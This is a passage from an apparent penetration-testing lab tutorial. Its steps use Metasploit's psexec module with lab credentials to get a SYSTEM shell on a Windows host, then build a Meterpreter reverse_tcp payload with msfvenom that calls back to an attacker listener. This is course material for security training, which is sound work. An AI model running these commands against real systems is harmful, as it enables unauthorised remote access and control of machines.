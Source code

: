 4. Load the module for PsExec with the following command:

	 - `use exploit/windows/smb/psexec`

5. Set the following options:

	 - set RHOST 172.22.117.20
	 - set SMBUser tstark
	 - set SMBPass Password!
	 - set SMBDomain megacorpone

     ![A screenshot depicts the options set correctly.](Images/msfsettings.PNG)

6. Run the module, and you should get a shell back as SYSTEM.

**Note:** We will explore PSExec more in the next lesson. For now, you just need to know that PSExec is a way of remotely administrating Windows machines. There is also a Metasploit module for it.

7. In a new terminal tab or window, generate a Meterpreter payload using `msfvenom` with the following command:

     - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe-service > service.exe`
